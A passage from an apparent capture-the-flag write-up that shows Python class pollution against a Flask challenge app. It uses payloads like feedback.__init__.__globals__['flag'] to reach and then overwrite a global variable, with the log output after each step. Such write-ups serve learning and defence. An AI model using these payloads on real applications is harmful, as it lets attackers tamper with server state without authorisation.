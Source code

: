 Nice! We can now find the `flag` variable via the `feedback` object!

First off, we can use `__class__` special attribute then `__init__` to get the `Feedback` class, or `__init__` method to get the initialized `feedback` object:

```python
flag = feedback.__class__.__init__
```

Or:

```python
flag = feedback.__init__
```

Save it **once or twice**, and you should see the following message in the log:

```python
flag=<bound method Feedback.__init__ of <app.routes.Feedback object at 0x7f0fcadede50>>
```

Then, in Python, we can use the `__globals__` special attribute to get all the global objects, which will return a dictionary object:

```python
flag = feedback.__init__.__globals__
```

Log message:

```python
flag={'__name__': 'app.routes', [...], 'app': <Flask 'app'>, [...], 'flag': {...}, 'Feedback': <class 'app.routes.Feedback'>, [...]}
```

In here, we can see a lot of built-in classes, as well as the running Flask application `app` object.

This is because in the `co2/app.py`, the Flask object is called `app`.

But most importantly, we can also see **the `flag` variable**! Let's read that variable's value!

```python
flag = feedback.__init__.__globals__['flag']
```

> Note: The `__globals__` special attribute returns a dictionary object, that's why we'll need to use the `['<key_here>']` syntax. 

```
flag='false'
```

As expected, it's boolean `False`!

## Exploitation

Now that we know how to get the `flag` variable by using `__init__.__globals__['flag']`, we can pollute it with string `true`!

Let's test it in our local environment!
